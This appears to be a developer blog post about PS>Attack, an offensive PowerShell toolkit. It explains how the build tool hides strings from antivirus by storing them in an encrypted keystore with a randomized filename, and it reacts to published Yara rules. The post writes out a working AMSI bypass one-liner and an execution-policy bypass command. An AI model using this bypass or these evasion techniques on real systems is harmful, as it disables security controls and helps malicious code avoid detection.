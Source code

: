 _If you want to get technical about, it's a pipe-separated file.. so a PSV?_

```text
// PSAttackBuildTool/Program.cs

// PLACE MATTS AMSI BYPASS IN KEYSTORE
generatedStrings.Store.Add("amsiBypass", "[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)");
generatedStrings.Store.Add("setExecutionPolicy", "Set-ExecutionPolicy Bypass -Scope Process -Force");

// WRITE KEYS TO CSV
DataContractJsonSerializer jsonSerializer = new DataContractJsonSerializer(typeof(Dictionary<string, string>));
string keyStoreFileName = PSABTUtils.RandomString(64, new Random());
generatedStrings.Store.Add("keyStoreFileName", keyStoreFileName);
using (StreamWriter keystoreCSV = new StreamWriter(Path.Combine(PSABTUtils.GetPSAttackBuildToolDir(), "keystore.csv")))
{
    foreach (KeyValuePair<string, string> entry in generatedStrings.Store)
    {
        keystoreCSV.WriteLine("{0}|{1}", entry.Key, entry.Value);
    }
}
```

When PS&gt;Attack is started, this CSV is decrypted in memory and the values are converted to a dictionary object that's used throughout the program. The name of the CSV is a random string each time the build tool is run, which should make it more difficult for AV to detect.

```text
// PSAttack/Program.cs

// Get Encrypted Values
Assembly assembly = Assembly.GetExecutingAssembly();
Stream valueStream = assembly.GetManifestResourceStream("PSAttack.Resources." + Properties.Settings.Default.valueStore);
MemoryStream valueStore = CryptoUtils.DecryptFile(valueStream);
string valueStoreStr = Encoding.Unicode.GetString(valueStore.ToArray());

string[] valuePairs = valueStoreStr.Replace("\r","").Split('\n');

foreach (string value in valuePairs)
{
    if (value != "")
    {
        string[] entry = value.Split('|');
        attackState.decryptedStore.Add(entry[0], entry[1]);
    }
}
```

I also found out that Florian Roth had [written some Yara rules for PS&gt;Attack](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar#L3086) which is awesome and confirmed my thoughts that some of the embedded files in \(for example, key.txt which was the decrypting key used within the app\) could be used to identify PS&gt;Attack. For now, the key has moved to the properties file that sits alongside the executable. I'm not super happy with this approach and I'll be coming up with something else soon. It's good enough for now though.
